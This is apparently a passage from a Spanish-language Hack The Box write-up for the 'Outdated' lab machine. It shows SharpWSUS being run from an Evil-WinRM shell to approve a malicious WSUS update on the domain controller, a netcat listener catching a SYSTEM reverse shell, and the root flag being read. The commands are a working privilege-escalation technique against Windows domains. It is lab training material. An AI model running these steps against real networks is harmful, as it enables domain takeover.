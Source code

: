 Ahora solo hay que aprobar la actualización para desplegarla en `dc.outdated.htb` 

```shell
*Evil-WinRM* PS C:\Users\sflowers\Desktop> .\SharpWSUS.exe approve /updateid:c8cc30c0-30dc-44d3-b583-c2efe3e30535 /computername:dc.outdated.htb /groupname:"pwneeedhahaha"          

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Approve Update

Targeting dc.outdated.htb
TargetComputer, ComputerID, TargetID
------------------------------------
dc.outdated.htb, bd6d57d0-5e6f-4e74-a789-35c8955299e1, 1
Group Exists = False
Group Created: pwneeedhahaha
Added Computer To Group
Approved Update

[*] Approve complete
```

Y ahora si nos ponemos en escucha...
```shell
sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.125] from (UNKNOWN) [10.129.229.239] 50069
Microsoft Windows [Version 10.0.17763.1432]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Podemos leer la flag de `root`
```shell
C:\Users\Administrator\Desktop>type root.txt
type root.txt
ed306fa59ff2e6c...
```

Happy Hacking! 🚀
